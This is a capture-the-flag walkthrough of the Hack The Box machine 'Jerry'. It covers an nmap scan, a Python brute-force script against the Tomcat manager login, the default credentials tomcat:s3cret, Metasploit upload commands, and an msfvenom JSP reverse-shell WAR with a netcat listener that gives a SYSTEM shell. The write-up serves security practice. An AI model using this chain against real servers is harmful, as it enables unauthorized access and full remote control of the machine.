


# Jerry      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV -Pn {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-Pn` - This flag tells Nmap to skip the host discovery phase, meaning Nmap will assume the target is up without sending initial pings. Normally, Nmap pings the target first to determine if it is online before scanning. By using `-Pn`, you can scan hosts that may be blocking or filtering ICMP ping requests, ensuring Nmap still attempts to scan the ports even if the host doesn't respond to ping.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.


Here is the description of the open port shown in the screenshot:

### **8080/tcp (HTTP)**
The **HTTP** service on this port is running an **Apache Tomcat/Coyote JSP engine** version 1.1, which serves Java-based web applications. The **Apache-Coyote** server header suggests that the Tomcat server is handling HTTP requests.

**Tomcat** is an open-source application server created by the `Apache Software Foundation`, used for running Java-based applications. Its main function is to support Java Servlet and JavaServer Pages (JSP) technologies, allowing dynamic web content generation. **Tomcat** acts as a servlet container, enabling the execution of web applications in a server environment. It is commonly used in both development and production environments for hosting Java-based web applications. Due to its ease of configuration and use, **Tomcat** is a popular choice for many companies and developers. It also offers integration with HTTP servers, enhancing its functionality.

After pasting `http://{target ip}:8080/` into the browser, we can see the website.


After clicking on **Manager App** login panel pops out.


I found **four** ways to log in.

#### 1

Just paste in `Google` *"tomcat default credentials"* and look for the credentials that you will enter manually.


You can also use a dictionary form **SecList** (path is `SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt`)


#### 2

Write a script to brute-force credentials in `Python` or `Ruby` or in any language you feel comfortable with.

Mine looks like this:

```python
import requests
from requests.auth import HTTPBasicAuth

url = "http://10.10.10.95:8080/manager/html"

dictionary = "/usr/share/wordlists/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt"

def load_credentials(dictionary):
    with open(dictionary, "r") as file:
        credentials = []
        for i in file:
            credentials.append(i.rstrip().split(":"))
    return credentials

def brute_force_tomcat(url, credentials):
    for username, password in credentials:

        response = requests.get(url, auth=HTTPBasicAuth(username, password))

        if response.status_code == 200:
            print(f"Success! Logged in with Username: {username} and Password: {password}")
            break
        elif response.status_code == 401:
            print(f"Failed login: {username}:{password}")
        else:
            print(f"Failed login: {username}:{password} Unexpected response: {response.status_code}")

credentials = load_credentials(dictionary)

brute_force_tomcat(url, credentials)
```

#### 3 

After pressing `Cancel` in the login panel it causes an **401 Unauthorized** error and the page shows us credentials.


#### 4

For **Tomcat** versions **older than 6**, it's possible to enumerate credentials through **Metasploit**.

```
msfconsole
```

```
use scanner/http/tomcat_mgr_login
```

```
set rhost {target ip}
```

```
exploit
```


Read more:

```
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
```

I will go with option number **2**.

### Python script

Let's use my script from above.


`...`


So credentials are:

```
tomcat:s3cret
```

Let's log in.


We are in `Tomcat Web Application Manager`.


We are allowed to upload **.war** files.

We know what to do, it's time to create a reverse shell.

### Reverse shell

Now, the **hacktricks** article I have mentioned earlier will be again very useful.

```
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
```

We can use several approaches, I will present these two of them because I want to practice a little:


### (1) Metasploit

Type in order:

```
msfconsole
```

```
use exploit/multi/http/tomcat_mgr_upload
```

```
set rhost {target ip}
```

```
set rport 8080
```

```
set lhost {your tun0 ip as we are connected to the HTB through VPN}
```

```
set httpusername tomcat
```

```
set httppassword s3cret
```

```
exploit
```


We are in and we are `nt authority\system`.


`nt authority\system` is **the highest privilege level** account in **Windows** systems. This user has full control over the operating system, meaning we have access to all resources and can perform any administrative operations.

We do not have to escalate privileges. It means, we can easily access all flags at this point. 

If you don't want to see the second method and you want to finish the challenge feel free to skip to the [Get the flags](#get-the-flags) section.

### (2) MSFVenom + Netcat

Type:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={your tun0 ip} LPORT={port of your choice} -f war > {any name you want}.war
```


Now, upload the **.war** file.



and press **Deploy**.

Now, let's set up the **Netcat**.

```
nc -lvnp {port you have chosen}
```


Path to your **.war** file should be there:



Now, paste inot the browser:

```
http://10.10.10.95:8080/{name of your .war file}
```

and you should have a shell as `nt authority\system` in your **Netcat** tab.


### Get the flags

Both flags are in the `C:\Users\Administrator\Desktop\flags` path.

```
type "2 for the price of 1.txt"
```


### Paste the flags

